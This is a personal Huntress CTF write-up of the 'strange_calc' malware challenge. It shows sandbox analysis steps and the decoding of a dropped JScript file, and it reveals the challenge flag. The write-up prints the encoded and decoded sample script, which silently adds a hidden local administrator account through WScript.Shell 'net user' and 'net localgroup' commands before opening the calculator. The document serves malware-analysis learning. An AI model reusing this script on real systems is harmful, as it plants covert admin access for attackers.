 2024-11-13 07:45

Status: #completed_huntress_CTF

Tags: [[huntressctf]] [[solved]] [[malware]] [[obfuscation]] [[ctf]] [[Cyber Security]] [[cyber security awareness month]] 

# strange_calc
Side Note from Future Cory: This was the very first challenge of the CTF, and reading this back, I learned a lot from how much I over complicated this. The other challenges had much better flow, and I felt like I had a better understanding, of what I am looking for, and where I should be looking.

Strange Calc is malware challenge for the first day of the Huntress CTF. This challenge isn't overly complicated, but I made it harder than it needed to be, though for this being my first official CTF I'm not bothered by how I made it more complex. 
We start by prepping the file onto our Malware Analysis VM
1. Enable SSH on our kali and Malware Analysis VM
2. Move the file from the kali VM to the malware Analysis VM
3. Extract the contents of the 7z archive with the password strange_calc
Now that our file is staged and ready to go, lets take a snapshot of our VM to ensure we can recover back to where we were in the event we need to. 
4. Take snapshot of VM
5. We'll start with the basics, and run strings on the .exe 
Strings didn't really give us anything of use, so we can move on, next we can run Detect it Easy and see that this file is packed with UPX, we could unpack this if we feel that disassembly is necessary, but I am really bad with reverse engineering so lets see what we can figure out without having to do that.
6. Ran Detect it Easy
From this point we don't know much about the executable, but we took a snapshot already so lets see what happens when we run it. 
Before running the [[Malware]] I am going to run [[RegShot]] to take an initial backup of the registry, and then run [[Process Explorer]] and [[Process Monitor]] 
7. Start up Regshot and take 1st shot of the Registry
8. Start up Process Explorer and Process Monitor
9. Filter Process Monitor to look for things done by our calc.exe 
Now that we have done all of this lets run this application.
When we run the calc.exe as administrator, it states that it failed to open the calculator and creates a .jse file with an odd name. It looks like the application also created a new user labeled Administrator on the system that's kind of neat. 
Since a user was created I first changed that user's password and logged into just to see if maybe this specific user could run the calc.exe program. 

After messing around with this newly created user and finding that it's just a blank empty new account, didn't create any files on this user's profile or anything I decided to go back and look at the javascript file that was created.

```#@~^cQMAAA==W!x^DkKxPm`(b	7l.P1'EEBN'( /aVkDcE-	J*iWW.c7l.Px!p+@![cV+ULDtI+3Q*	-mD,0'9$DRM+2VmmncJ7-kQu'/_f&L~EB*ir0cWckUNar6`E8okUE*'x'Zk-0 bx9+6}0vE+	NE#{'xT-u0{x'rJ#1GUYbx!+I\C.,ox`6 m4l./KN+)Ov!bO2+*[2i6WDv\m.P4'qi4@!W ^+xTOtpt_{*b	b0vtQ&@*x6Rs+	LY4#8.l3I-mD~k{c6R^4lMZW9+zO`4#R&y#'2~L{c0cmtm./W9+zYctQq*Of *'v2~Vxv0R^4mD/W9nzYc4_y#O2 *'v2~s'v0 ^4lD;GNbYv4Q&*O2 b[fpmQ'UODbxL 6DWh/4l.ZK[`cb@!@! #-`N@*@*W#bib0c43 @!6 VxoD4RF*m3'jY.r	o 0MG:;tC.;WNncv`%[8X*@!@!W#-`3@*@*yb#pkW`4_f@!6RVUoDtO8b^_{?DDrxL 6DG:;4lMZG[``cVL&b@!@!*us*8)D+DEMUP1RdE(/O.bxovT~T#87C.Ps'r4norU,v*c,R-	M1o5b,	JIRf`"1w`]Bvub,;^qR&{2S.Of0/v(,[@!(c&"zR!I~qKM-U|'xnx9Ei7l.~	'lch*i-lM~K',rxYP!/.PdW^l^b[hbxkkODmYWM~E_	_rP&l[[r~ExOP^W^C^oDG;aPCNsr	kdDDmYWM/,JW1lsb9:rUb/YMCYKDPJC[Nr~rmCV^ 6nJYI\mD~2{x+A~zmOk7nor8N+1Y`EU^DbwORUtns^B#pWWM`\m.~;{!p;@!W sxLY4RFp;QQ*	w ]!xcW]5Y~TB0mV/#)2R"EU`K$+DBF~6CVk+#p4RABAA==^#~@```

This file looks like gibberish but that makes some sense since it is encrypted. So lets copy that entire jse into [[CyberChef]] and see if that detects anything about the file. 

It almost immediately says we can decode this with Microsoft Script Decoder so let's see what it looks like after decoding 

```function a(b){var c="",d=b.split("\n");for(var e=0;e<d.length;e++){var f=d[e].replace(/^\s+|\s+$/g,'');if(f.indexOf("begin")===0||f.indexOf("end")===0||f==="")continue;var g=(f.charCodeAt(0)-32)&63;for(var h=1;h<f.length;h+=4){if(h+3>=f.length)break;var i=(f.charCodeAt(h)-32)&63,j=(f.charCodeAt(h+1)-32)&63,k=(f.charCodeAt(h+2)-32)&63,l=(f.charCodeAt(h+3)-32)&63;c+=String.fromCharCode((i<<2)|(j>>4));if(h+2<f.length-1)c+=String.fromCharCode(((j&15)<<4)|(k>>2));if(h+3<f.length-1)c+=String.fromCharCode(((k&3)<<6)|l)}}return c.substring(0,g)}var m="begin 644 -\nG9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*\n`\nend";var n=a(m);var o=["net user LocalAdministrator "+n+" /add","net localgroup administrators LocalAdministrator /add","calc.exe"];var p=new ActiveXObject('WScript.Shell');for(var q=0;q<o.length-1;q++){p.Run(o[q],0,false)}p.Run(o[2],1,false);```

This script is pretty interesting, it does some deobfuscation and then we can see that it does create a new local Administrator which we did notice prior. 
The important looking piece to me is that variable m
We could tear down the rest of the script and see how it manipulates the variable m
Though the start piece of begin 644 is an indicator that this is using [[UUencoding]]
So lets throw that variable in CyberChef and bake it using From [[Base64]] change the alphabet to UUencoding and deselect the box to remove non-alphabet characters
This will give us our flag.
```flag{9922fb21aaf1757e3fdb28d7890a5d93}```
## Keywords


# Resources

# References
